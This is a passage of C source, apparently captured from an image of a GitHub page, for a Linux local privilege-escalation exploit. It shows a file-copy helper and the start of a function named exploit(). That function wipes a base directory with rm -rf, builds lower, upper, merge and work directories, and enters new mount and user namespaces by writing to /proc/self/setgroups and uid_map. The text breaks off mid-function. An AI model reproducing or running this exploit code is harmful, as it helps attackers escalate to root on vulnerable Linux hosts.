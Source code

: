 ```
{
    int fi, fo;

    if ((fi = open(src, O_RDONLY)) == -1)
        err(1, "open %s", src);
    if ((fo = open(dst, O_WRONLY | O_CREAT, mode)) == -1)
        err(1, "open %s", dst);

    char buf[4096];
    ssize_t rd, wr;

    for (;;) {
        rd = read(fi, buf, sizeof(buf));
        if (rd == 0) {
            break;
        } else if (rd == -1) {
            if (errno == EINTR)
                continue;
            err(1, "read %s", src);
        }

        char *p = buf;
        while (rd > 0) {
            wr = write(fo, p, rd);
            if (wr == -1) {
                if (errno == EINTR)
                    continue;
                err(1, "write %s", dst);
            }
            p += wr;
            rd -= wr;
        }
    }

    close(fi);
    close(fo);
}

static int exploit()
{
    char buf[4096];

    sprintf(buf, "rm -rf '%s/'", DIR_BASE);
    system(buf);

    xmkdir(DIR_BASE, 0777);
    xmkdir(DIR_WORK,  0777);
    xmkdir(DIR_LOWER, 0777);
    xmkdir(DIR_UPPER, 0777);
    xmkdir(DIR_MERGE, 0777);

    uid_t uid = getuid();
    gid_t gid = getgid();

    if (unshare(CLONE_NEWNS | CLONE_NEWUSER) == -1)
        err(1, "unshare");

    xwritefile("/proc/self/setgroups", "deny");

    sprintf(buf, "0 %d 1", uid);
    xwritefile("/proc/self/uid_map", buf);

    sprintf(buf, "0 %d 1", gid);
```